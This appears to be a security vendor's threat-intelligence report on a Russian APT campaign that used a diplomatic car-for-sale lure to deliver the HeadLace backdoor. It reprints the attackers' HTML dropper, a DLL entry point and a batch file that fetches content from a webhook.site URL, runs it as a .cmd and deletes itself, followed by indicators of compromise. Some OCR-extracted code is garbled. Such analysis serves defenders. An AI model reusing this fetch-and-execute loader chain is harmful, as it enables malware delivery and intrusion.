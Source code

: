 [comment]:<> (===START PAGE 1===)





 This post is also available in: 
[日本語
 


 (
 
 Japanese
 
 )](https://unit42.paloaltonetworks.jp/fighting-ursa-car-for-sale-phishing-lure/)




Executive Summary
-----------------



 A Russian threat actor we track as
 [Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/) 
 advertised a car for sale as a lure to distribute
 [HeadLace](https://malpedia.caad.fkie.fraunhofer.de/details/win.headlace) 
 backdoor malware.The campaign likely targeted diplomats and began as early as March 2024.Fighting Ursa (aka APT28, Fancy Bear and Sofacy) has been
 [associated with Russian military intelligence and classified as an advanced persistent threat (APT) [PDF]](https://strapi.eurepoc.eu/uploads/Eu_Repo_C_APT_profile_APT_28_4856c0a0ac.pdf) 
. 



 Diplomatic-car-for-sale phishing lure themes have been used by Russian threat actors for years.These lures tend to resonate with diplomats and get targets to click on the malicious content. 



 Unit 42 has previously observed other threat groups using this tactic.For example, in 2023, a different Russian threat group,
 [Cloaked Ursa](https://unit42.paloaltonetworks.com/cloaked-ursa-phishing/) 
 , repurposed an advertisement for a BMW for sale to target diplomatic missions within Ukraine.This campaign is not directly connected to the Fighting Ursa campaign described here.However, the similarity in tactics points to known behaviors of Fighting Ursa.The Fighting Ursa group is known for repurposing successful tactics – even
 [continuously exploiting known vulnerabilities for 20 months](https://unit42.paloaltonetworks.com/russian-apt-fighting-ursa-exploits-cve-2023-233397/) 
 after their cover was already blown. 



 The details of the March 2024 campaign, which we attribute to Fighting Ursa with a medium to high level of confidence, indicate the group targeted diplomats and relied on public and free services to host various stages of the attack.This article examines the infection chain from the attack. 



 Palo Alto Networks customers are better protected from the threats discussed in this article through our
 [Network Security](https://www.paloaltonetworks.com/network-security) 
 solutions, such as
 [Advanced WildFire](https://www.paloaltonetworks.com/network-security/advanced-wildfire) 
 and
 [Advanced URL Filtering](https://docs.paloaltonetworks.com/advanced-url-filtering) 
 , as well as our
 [Cortex](https://www.paloaltonetworks.com/cortex) 
 line of products. 



 If you think you might have been compromised or have an urgent matter, contact the
 [Unit 42 Incident Response team](https://start.paloaltonetworks.com/contact-unit42.html) 
. 


Initial Lure
------------



 The
 [URL kicking off this infection chain](https://www.virustotal.com/gui/url/7721209735fc8e3d0ccd88bae7f7f37cfcc453288f82b85e57686192a8efd83f) 
 was hosted by a legitimate service named
 [Webhook.site](https://docs.webhook.site/) 
 , and it was submitted to VirusTotal on March 14, 2024.Webhook.site is a service for legitimate development projects, and it allows its users to create randomized URLs for various purposes like custom automation based on the characteristics of visitors to the URLs. 



 In this case, Fighting Ursa abused Webhook.site to craft a URL that returned
 [a malicious HTML page](https://www.virustotal.com/gui/file/cda936ecae566ab871e5c0303d8ff98796b1e3661885afd9d4690fc1e945640e) 
.Figure 1 below shows the HTML returned from the
 
 webhook.site
 
 URL. 





[comment]:<> (===START IMAGE DETECTED===)

![A screenshot of an HTML document code on a computer screen, displaying various script tags and a hyperlink with a detailed URL.The document includes standard HTML structure tags such as doctype, head, and body.](0_image_0.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
<script>
1234567∞
1 <!DOCTYPE html>
2 <html>
<head>
window.history.pushState("
</script>
<script>
'https://webhook.site/IMG-387470302099.zip');
if (!window.navigator.userAgent.toLowerCase().includes('win')) window.location.replace('https://i.ibb.co/vVSCr2Z/car-for-sale.jpg')
8
9
</script>
10
<script>
11
12
var a = document.createElement('a');
a.href =
'data:application/zip;base64, UESDBBQAAAAIAN2U7TreXX6W1tMFAAAEDgAYAAAASU1HLTM4NzQ3MDMwMjA50S5qcGci
JI5JHZuQNTCDs VEHQYJQWBSFREATIZADDYwhVrNpai0t3W1BUwqJKARIIa0AIiizi8oYAsggkAFL60+e9SULAtn/0n35f+TTvrueee++5
y47rWwofNdvZqcDk3d1p1FNTZiZMnzHtyRmPPZ209dgzz0zLSXj8iYQZuc8kTHkmwTVsZMLT0yY/05smpnmiAePY9pzv3vtbm48j//17/OML/F328R/4q/B3xJSspwjOT+Gc6RaEyQvtwv5tjwxumMedQgtzMzGLgjno7isYJ1JEGL1eqT0tFKQ7MhF/ud/yS2pUChf2xLVaXmC4NDLEY LQYxt9bkgK8V12YRSBOhs1vN4FgBZECe9NbtQgoaUwFxs0tZ1d6CF8+3+qGfMzUT+7kBYtCEsft990L
LeUwQNrc0oYDa4tv6+0Zp+K8XNwP6Q21Ns Ib0TYxq2q6w13RuqM9xAeqz8Z0RdS08GTNnZCHNa3IW9V3xrbxZuyemTkPDuRZeKyJki
hLfHdjLJJQfQr4DvifwfQVfou82+F7F90m0s5uE+nZHjz4y+FZTQ7/F+CY@yt+LbxLar8b3PnxfwjcNXxP6efH9DN8x9e0b/02U3V5v5p9ek6d0Rdo7Vsr0cPrJyVOmT82dyWnJNQbFRqNncvC318vrFYZ53dLoUUbx6Fmjnnri65c4PW3qE0Zp+rCM9FER8EPCI4
pycqxnaEYGp8a4R4Z0DBvK6UGuyOBPz3wua0YOJ/...';
a.download
=
IMG-387470302099.zip';
13
14
a.click();
15
</script>
16
</head>
17
<body></body>
18 </html>
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 1.HTML code used in the attack hosted on the Webhook.site service. 




 The HTML shown above in Figure 1 has multiple elements that attempt to automate the attack.First, it checks if the visiting computer is Windows-based.If not, it redirects to a decoy image on
 [a URL hosted by another legitimate provider](https://www.virustotal.com/gui/url/26df5d7ed6748ad3ea9e2e18db3e6535ef99cb4b1a0c46218f91db7626d3efd5) 
 , which is a free service named
 [ImgBB](https://imgbb.com/upload) 
.As the final payload is Windows based, this operating system check is probably an effort to ensure that further actions taken in the attack are only taken for Windows visitors.The HTML then creates a ZIP archive from Base64 text in the HTML, offers it for download and attempts to open it with the JavaScript
 
 click()
 
 function. 



 Figure 2 below shows
 [the decoy image](https://www.virustotal.com/gui/file/7c85ff89b535a39d47756dfce4597c239ee16df88badefe8f76051b836a7cbfb) 
 advertising a car for sale, specifically an Audi Q7 Quattro SUV.This fake advertisement is titled “Diplomatic Car For Sale.”
 



 The image provides different views of the vehicle.The image also contains contact details that are likely fake, as well as a phone number based in Romania.Finally, the image also lists the point of contact as the Southeast European Law Enforcement Center, possibly to lend this fake advertisement more credibility. 





[comment]:<> (===START IMAGE DETECTED===)

![Compilation of six photographs displaying a used Audi Q7 for sale.The top three images show the front, side, and rear exterior views of a black Audi parked on a street.The bottom left image features the car's dashboard, highlighting the odometer showing mileage at 150,390 km.The next two images provide different angles of the steering wheel and the control panel, showcasing the car interior.Inserted in the top-middle image, there is a text detail about the car, listing price, year, model, trim, transmission type, mileage, web contact details, condition statement, and availability, all uniformly typed in a clear font.](0_image_1.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
DIPLOMATIC CAR FOR SALE
Model Audi Q7 Quatro
Engine 3.000 TDI
Fuel Diesel
Transmission:Automatic
Mileage 336.000 km
Year 2009
Price 5.500 Euro.Winter tires included in the price, perfect condition, available immediately
For more information, please contact
Mobile:+40
E-mail:@selec.org
Web:www.selec.org
1000
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 2.Diplomatic car for sale lure hosted on ImgBB. 



Downloaded Malware
------------------



 The downloaded ZIP archive is saved as
 [IMG-387470302099.zip](https://www.virustotal.com/gui/file/dad1a8869c950c2d1d322c8aed3757d3988ef4f06ba230b329c8d510d8d9a027)
 and contains three files listed below in Table 1. 




| **File Size** | **Modified Date and Time** | **File Name** |
| --- | --- | --- |
| 918,528 bytes | 2009-07-13 18:38 UTC | IMG-387470302099.jpg.exe |
| 9,728 bytes | 2024-03-13 00:37 UTC | WindowsCodecs.dll |
| 922 bytes | 2024-03-13 00:37 UTC | zqtxmo.bat |



 Table 1.Contents of the downloaded file
 
 IMG-387470302099.zip
 
. 



 Table 1 above shows that the first file
 
 IMG-387470302099.jpg.exe
 
 has a double file extension of
 
.jpg.exe
 
.Windows hosts with a default configuration hide file extensions, so the
 
.jpg.exe
 
 file extension only shows as
 
.jpg
 
 in the file name.This is a common tactic used by threat actors to trick potential victims into double-clicking the file, in this case believing it will open a car for sale advertisement. 



 The file named
 
 IMG-387470302099.jpg.exe
 
 is a copy of the legitimate Windows calculator file
 
 calc.exe
 
.This file is used to sideload the included DLL file
 
 WindowsCodecs.dll
 
 , which is a component of the
 [HeadLace](https://malpedia.caad.fkie.fraunhofer.de/details/win.headlace) 
 backdoor. 



 HeadLace is modular malware that executes in stages.This stage-based loading is probably designed to prevent detection and minimize the malware's exposure to analysts.The DLL file contains a function shown below in Figure 3. 





[comment]:<> (===START IMAGE DETECTED===)

![Code snippet displaying a function called DllMain which includes a conditional statement that executes a system command to run "qazmo.bat" when the function's reason for being called equals 1.](0_image_2.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
BOOL _stdcall DllMain (HINSTANCE hinstDLL, DWORD fdw Reason, LPVOID 1pvReserved)
{
if (fdwReason == 1 )
system("zqtxmo.bat");
return 1;
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 3.Code in
 
 WindowsCodecs.dll
 
 file to run a file named
 
 zqtxmo.bat
 
. 




 This function is solely meant to execute the last file within the ZIP archive,
 
 zqtxmo.bat
 
.Figure 4 below shows the content of
 
 zqtxmo.bat
 
. 





[comment]:<> (===START IMAGE DETECTED===)

![The image shows a computer screen displaying several lines of code or terminal commands.Text highlighted in green is the contents of a BAT file, indicated in a box outlined in white.](0_image_3.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
1@echo off
2 if not DEFINED IS MINIMIZED set IS_MINIMIZED=1 && start ""/min "%~dpnx0" ** && exit
3 start msedge data:text/html;base64,
4
PHRpdGx1Pk1NRy0zODc0NzAzMDIwOTkuanBnPC90aXRsZT48aWZyYW1lIHNyYz0iaHR0cHM6Ly93ZWJob29rLnNpdGUv
ZDI5MDM3N2MtODJiNS00NzY1LWFjYjgtNDU0ZWRmNjQyNWRkIiBzdHlsZT0icG9zaXRpb246Zml4ZWQ7IHRvcDowOyBs
ZWZ0OjA7IGJvdHRvbTowOyByaWdodDowOyB3aWR0aDoxMDAloyBoZWlnaHQ6MTAwJTsgYm9yZGVyOm5vbmU7IG1hcmdg
bjowOyBwYWRkaW5nOjA7IG92ZXJmbG930mhpZGRlbjsqeilpbmRleDo50Tk50Tk7Ij48L21mcmFtZT4=
timeout 15 > nul
move 'userprofile%\downloads\IMG-387470302099.jpg %programdata%\IMG-387470302099.cmd > nul
type nul > 'userprofile%\downloads\IMG-387470302099.jpg
8call %programdata%\IMG-387470302099.cmd
9 del/q/f/a %0 & exit
1 <title>IMG-387470302099.jpg</title>
2
<iframe src="https://webhook.site/d290377c-82b5-4765-acb8-454edf6425dd"
style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%;
border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">
3 </iframe>
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 4.Contents of the
 
 zqtxmo.bat
 
 batch file. 




 This batch file starts a process for Microsoft Edge (
 
 start msedge
 
 ) to run content passed as Base64-encoded text.As shown above in Figure 4, the decoded text is a hidden iframe that retrieves content from
 [a different Webhook.site URL](https://www.virustotal.com/gui/url/844ac27e672a1fc6840a29b3c8443004b06469905b82dbbcf56dd5b53fea9484) 
. 



 The batch file saves content from this second Webhook.site URL as
 
 IMG387470302099.jpg
 
 in the user's downloads directory.It then moves the downloaded file into the
 
 %programdata%
 
 directory and changes the file extension from
 
.jpg
 
 to
 
.cmd
 
.Finally, the batch file executes
 
 IMG387470302099.cmd
 
 , then deletes itself as a way to remove any obvious trace of malicious activity. 


Attribution
-----------



 We attribute this activity with a medium to high level of confidence to Fighting Ursa based on the tactics, techniques and procedures (TTPs), characteristics of the attack infrastructure and the malware family attackers used. 



 This attack relies heavily on public and free services to host lures and various stages of the attack.Documentation by
 [IBM](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
 ,
 [Proofpoint](https://www.proofpoint.com/us/blog/threat-insight/ta422s-dedicated-exploitation-loop-same-week-after-week) 
 ,
 [Recorded Future](https://www.recordedfuture.com/grus-bluedelta-targets-key-networks-in-europe-with-multi-phase-espionage-camp) 
 and others reveal that while the infrastructure used by Fighting Ursa varies for different attack campaigns, the group frequently relies on these freely available services.Furthermore, the tactics from this campaign fit with previously documented Fighting Ursa campaigns, and the
 [HeadLace backdoor is exclusive to this threat actor](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
. 


Conclusion
----------



 Fighting Ursa is a motivated threat actor.The infrastructure the group uses has constantly changed and evolved, as noted in a
 [recent report](https://www.recordedfuture.com/grus-bluedelta-targets-key-networks-in-europe-with-multi-phase-espionage-camp) 
 from Recorded Future.Other industry reports have also shown various lures this actor uses in attempts to drop HeadLace malware. 



 We assess that Fighting Ursa will continue to use legitimate web services in its attack infrastructure.To defend against these attacks, defenders should limit access to these or similar hosting services as necessary.If possible, organizations should scrutinize the use of these free services to identify possible attack vectors. 


### Palo Alto Networks Protection and Mitigation



 Palo Alto Networks customers are better protected from the threats discussed above through the following products: 


* [Cortex XDR](https://www.paloaltonetworks.com/cortex/cortex-xdr) 
 detects the attack chain described above, among other protections in the Cortex XDR platform.* [Cortex XSIAM](https://docs-cortex.paloaltonetworks.com/p/XSIAM) 
 and
 [XSOAR](https://docs-cortex.paloaltonetworks.com/p/XSOAR) 
 have released
 [a response pack and playbook](https://xsoar.pan.dev/docs/reference/playbooks/fighting-ursa-luring-targets-with-car-for-sale) 
 for automatically detecting the Fighting Ursa threat actor.This playbook downloads the APT28 detection rules and performs extraction, enrichment, and tagging of indicators.It executes our generic Threat Hunting sub-playbook and subsequently provides analysts with recommended workarounds, empowering them to decide the best course of action with the enriched indicators.* [Advanced URL Filtering](https://docs.paloaltonetworks.com/advanced-url-filtering) 
 identifies known URLs associated with this activity as malicious.* The
 [Advanced WildFire](https://docs.paloaltonetworks.com/wildfire) 
 machine-learning models and analysis techniques have been reviewed and updated in light of the IoCs shared in this research.


 If you think you may have been compromised or have an urgent matter, get in touch with the
 [Unit 42 Incident Response team](https://start.paloaltonetworks.com/contact-unit42.html) 
 or call: 


* North America Toll-Free:866.486.4842 (866.4.UNIT42)
* EMEA:+31.20.299.3130
* APAC:+65.6983.8730
* Japan:+81.50.1790.0200



 Palo Alto Networks has shared these findings with our fellow Cyber Threat Alliance (CTA) members.CTA members use this intelligence to rapidly deploy protections to their customers and to systematically disrupt malicious cyber actors.Learn more about the
 [Cyber Threat Alliance](https://www.cyberthreatalliance.org) 
. 


Indicators of Compromise
------------------------



 HTML page hosted on webhook site with decoy image and payload zip file: 


* cda936ecae566ab871e5c0303d8ff98796b1e3661885afd9d4690fc1e945640e



 Car for sale image lure: 


* 7c85ff89b535a39d47756dfce4597c239ee16df88badefe8f76051b836a7cbfb



 ZIP file containing
 
 calc.exe
 
 , malicious DLL and BAT file: 


* dad1a8869c950c2d1d322c8aed3757d3988ef4f06ba230b329c8d510d8d9a027



 Legitimate
 
 calc.exe
 
 abused to sideload the malicious DLL: 


* c6a91cba00bf87cdb064c49adaac82255cbec6fdd48fd21f9b3b96abf019916b



 Malicious file named
 
 WindowsCodecs.dll
 
 sideloaded by
 
 calc.exe
 
: 


* 6b96b991e33240e5c2091d092079a440fa1bef9b5aecbf3039bf7c47223bdf96



 Batch file named
 
 zqtxmo.bat
 
 executed by the above malicious DLL: 


* a06d74322a8761ec8e6f28d134f2a89c7ba611d920d080a3ccbfac7c3b61e2e7



 URLs that hosted content for this campaign: 


* https://webhook.site/66d5b9f9-a5eb-48e6-9476-9b6142b0c3ae
* https://webhook.site/d290377c-82b5-4765-acb8-454edf6425dd
* https://i.ibb.co/vVSCr2Z/car-for-sale.jpg


Additional Resources
--------------------



*Updated August 2, 2024, at 7:35 a.m.PT to add Cortex XSOAR and XSIAM product protections and playbook link.* 




*Updated August 5, 2024, at 8:37 a.m.PT to update Cortex XSOAR and XSIAM playbook link.* 









[comment]:<> (===END PAGE 1===)
